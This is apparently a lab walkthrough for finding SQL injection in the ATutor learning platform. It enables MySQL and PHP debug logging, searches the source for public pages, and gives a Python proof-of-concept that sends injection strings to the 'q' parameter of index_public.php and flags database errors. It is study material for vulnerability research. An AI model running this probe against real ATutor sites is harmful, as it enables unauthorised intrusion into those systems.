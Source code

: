 ##### Setting Up the Environment

MySQL server configuration file located at /etc/mysql/my.cnf and uncomment the following lines under the Logging and Replication section:

```
sudo nano /etc/mysql/my.cnf

[mysqld]
...
general_log_file        = /var/log/mysql/mysql.log
general_log             = 1

```

```
sudo systemctl restart mysql
```

```
sudo tail –f /var/log/mysql/mysql.log
```
Generate PHP error:

Update file /etc/php5/apache2/php.ini

```
display_errors = On

```

```
sudo systemctl restart apache2
```
Editing source code

```
gedit sftp://atutor/var/www/html/ATutor/search.php
```

Looking in source code for this:

```
$_user_location	= 'public';
```

```
grep -rnw /var/www/html/ATutor -e "^.*user_location.*public.*" --color

```

ATutor POC:

```
import sys
import re
import requests
from bs4 import BeautifulSoup

def searchFriends_sqli(ip, inj_str):
    target      = "http://%s/ATutor/mods/_standard/social/index_public.php?q=%s" % (ip, inj_str)
    r = requests.get(target)
    s = BeautifulSoup(r.text, 'lxml')
    print "Response Headers:"
    print r.headers
    print
    print "Response Content:"
    print s.text
    print
    error = re.search("Invalid argument", s.text)
    if error:
        print "Errors found in response. Possible SQL injection found"
```